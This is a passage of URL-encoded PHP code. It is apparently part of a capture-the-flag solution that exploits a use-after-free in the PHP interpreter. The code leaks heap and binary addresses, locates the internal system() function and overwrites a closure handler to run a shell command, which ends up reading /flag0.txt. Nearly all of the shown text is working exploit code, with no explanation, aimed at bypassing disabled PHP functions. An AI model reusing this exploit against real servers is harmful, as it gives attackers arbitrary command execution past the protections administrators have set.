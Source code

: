 ```php
0%20if(%24deref%20!%3D%200x786568326e6962)%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20continue%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20%24data_addr%20%2B%20%24i%20*%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_binary_base(%24binary_leak)%20%7B%0A%20%20%20%20%20%20%20%20%24base%20%3D%200%3B%0A%20%20%20%20%20%20%20%20%24start%20%3D%20%24binary_leak%20%26%200xfffffffffffff000%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x1000%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%3D%20%24start%20-%200x1000%20*%20%24i%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24addr%2C%200%2C%207)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20%3D%3D%200x10102464c457f)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20%24addr%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_system(%24basic_funcs)%20%7B%0A%20%20%20%20%20%20%20%20%24addr%20%3D%20%24basic_funcs%3B%0A%20%20%20%20%20%20%20%20do%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_entry%20%3D%20leak(%24addr)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_name%20%3D%20leak(%24f_entry%2C%200%2C%206)%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24f_name%20%3D%3D%200x6d6574737973)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20leak(%24addr%20%2B%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%2B%3D%200x20%3B%0A%20%20%20%20%20%20%20%20%7D%20while(%24f_entry%20!%3D%200)%3B%0A%20%20%20%20%20%20%20%20return%20false%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20trigger_uaf(%24arg)%20%7B%0A%0A%20%20%20%20%20%20%20%20%24arg%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%20%20%20%20%20%20%20%20%24vuln%20%3D%20new%20Vuln()%3B%0A%20%20%20%20%20%20%20%20%24vuln-%3Ea%20%3D%20%24arg%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(stristr(PHP_OS%2C%20'WIN'))%20%7B%0A%20%20%20%20%20%20%20%20die('This%20PoC%20is%20for%20*nix%20systems%20only.')%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24n_alloc%20%3D%2010%3B%20%0A%20%20%20%20%24contiguous%20%3D%20%5B%5D%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24n_alloc%3B%20%24i%2B%2B)%0A%20%20%20%20%20%20%20%20%24contiguous%5B%5D%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%0A%20%20%20%20trigger_uaf('x')%3B%0A%20%20%20%20%24abc%20%3D%20%24backtrace%5B1%5D%5B'args'%5D%5B0%5D%3B%0A%0A%20%20%20%20%24helper%20%3D%20new%20Helper%3B%0A%20%20%20%20%24helper-%3Eb%20%3D%20function%20(%24x)%20%7B%20%7D%3B%0A%0A%20%20%20%20if(strlen(%24abc)%20%3D%3D%2079%20%7C%7C%20strlen(%24abc)%20%3D%3D%200)%20%7B%0A%20%20%20%20%20%20%20%20die(%22UAF%20failed%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24closure_handlers%20%3D%20str2ptr(%24abc%2C%200)%3B%0A%20%20%20%20%24php_heap%20%3D%20str2ptr(%24abc%2C%200x58)%3B%0A%20%20%20%20%24abc_addr%20%3D%20%24php_heap%20-%200xc8%3B%0A%0A%20%20%20%20write(%24abc%2C%200x60%2C%202)%3B%0A%20%20%20%20write(%24abc%2C%200x70%2C%206)%3B%0A%0A%20%20%20%20write(%24abc%2C%200x10%2C%20%24abc_addr%20%2B%200x60)%3B%0A%20%20%20%20write(%24abc%2C%200x18%2C%200xa)%3B%0A%0A%20%20%20%20%24closure_obj%20%3D%20str2ptr(%24abc%2C%200x20)%3B%0A%0A%20%20%20%20%24binary_leak%20%3D%20leak(%24closure_handlers%2C%208)%3B%0A%20%20%20%20if(!(%24base%20%3D%20get_binary_base(%24binary_leak)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20determine%20binary%20base%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24elf%20%3D%20parse_elf(%24base)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20parse%20ELF%20header%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24basic_funcs%20%3D%20get_basic_funcs(%24base%2C%20%24elf)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20basic_functions%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24zif_system%20%3D%20get_system(%24basic_funcs)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20zif_system%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%0A%20%20%20%20%24fake_obj_offset%20%3D%200xd0%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x110%3B%20%24i%20%2B%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20write(%24abc%2C%20%24fake_obj_offset%20%2B%20%24i%2C%20leak(%24closure_obj%2C%20%24i))%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20write(%24abc%2C%200x20%2C%20%24abc_addr%20%2B%20%24fake_obj_offset)%3B%0A%20%20%20%20write(%24abc%2C%200xd0%20%2B%200x38%2C%201%2C%204)%3B%20%0A%20%20%20%20write(%24abc%2C%200xd0%20%2B%200x68%2C%20%24zif_system)%3B%20%0A%0A%20%20%20%20(%24helper-%3Eb)(%24cmd)%3B%0A%20%20%20%20exit()%3B%0A%7D%0A%0Actfshow(%22cat%20%2Fflag0.txt%22)%3Bob_end_flush()%3B%0A%3F%3E%0A
```
